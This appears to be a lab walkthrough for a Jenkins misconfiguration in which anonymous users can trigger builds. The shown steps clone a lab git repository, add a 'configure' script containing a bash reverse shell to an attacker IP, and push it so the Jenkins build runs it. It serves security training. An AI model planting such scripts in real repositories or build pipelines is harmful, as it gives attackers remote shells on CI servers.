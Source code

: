 # jenkins-leveraging-code-repo

#### Bug

- The administrator has allowed all users to fire build on a pre-defined job and view build logs without logging in. However, defining a new task or changing the build process is only allowed to logged-in users.

----

- [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

----

![](images/1.png)

![](images/2.png)

![](images/3.png)

![](images/4.png)

![](images/5.png)

![](images/6.png)

```sh
root@attackdefense:~/Desktop# git clone http://192.83.162.4/root/sample-web-server.git
Cloning into 'sample-web-server'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (6/6), 5.12 KiB | 2.56 MiB/s, done.
root@attackdefense:~/Desktop# 
```

```sh
root@attackdefense:~/Desktop# cd sample-web-server/
root@attackdefense:~/Desktop/sample-web-server# ls -l
total 28
-rw-r--r-- 1 root root   138 Jun 10 17:11 Makefile
-rw-r--r-- 1 root root  1049 Jun 10 17:11 README.md
-rw-r--r-- 1 root root    42 Jun 10 17:11 index.html
-rw-r--r-- 1 root root 13225 Jun 10 17:11 tiny.c
root@attackdefense:~/Desktop/sample-web-server# 
```

`configure`

```sh
#!/bin/bash

bash -i >& /dev/tcp/192.83.162.2/8080 0>&1
```

```sh
root@attackdefense:~/Desktop/sample-web-server# vim configure
root@attackdefense:~/Desktop/sample-web-server# chmod +x configure 
root@attackdefense:~/Desktop/sample-web-server# ls -l
total 32
-rw-r--r-- 1 root root   138 Jun 10 17:11 Makefile
-rw-r--r-- 1 root root  1049 Jun 10 17:11 README.md
-rwxr-xr-x 1 root root    56 Jun 10 17:14 configure
-rw-r--r-- 1 root root    42 Jun 10 17:11 index.html
-rw-r--r-- 1 root root 13225 Jun 10 17:11 tiny.c
root@attackdefense:~/Desktop/sample-web-server# 
```

```sh
root@attackdefense:~/Desktop/sample-web-server# git add .
root@attackdefense:~/Desktop/sample-web-server# git commit -m "updated shell"
[master 816da74] updated shell
 Committer: root <root@cb18f1d55887>
Your name and email address were configured automatically based
on your username and hostname. Please check that they are accurate.
You can suppress this message by setting them explicitly. Run the
following command and follow the instructions in your editor to edit
your configuration file:

    git config --global --edit

After doing this, you may fix the identity used for this commit with:

    git commit --amend --reset-author

 1 file changed, 3 insertions(+)
 create mode 100755 configure
root@attackdefense:~/Desktop/sample-web-server# git push
Username for 'http://192.83.162.4': root
Password for 'http://root@192.83.162.4': 
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 48 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 314 bytes | 314.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0)
To http://192.83.162.4/root/sample-web-server.git
   e5a5285..816da74  master -> master
root@attackdefense:~/Desktop/sample-web-server# 
```

![](images/7.png)

![](images/8.png)

![](images/9.png)

![](images/10.png)

![](images/11.png)

![](images/12.png)

![](images/13.png)

----

EOF